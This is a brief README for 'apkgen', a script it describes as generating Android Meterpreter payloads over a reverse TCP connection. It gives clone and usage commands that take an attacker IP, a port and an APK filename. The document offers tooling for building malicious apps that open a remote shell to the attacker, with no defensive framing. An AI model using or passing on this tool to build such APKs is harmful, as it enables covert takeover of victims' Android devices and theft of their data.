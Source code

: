 # apkgen
Android meterpreter payload generator script using reverse tcp connection protocol

cd apkgen

chmod +x apkgen

./apkgen your_ip your_port filename.apk

ex:

./apkgen 127.0.0.1 8080 apkgen.apk

git clone http://github.com/rishijat0/apkgen.git
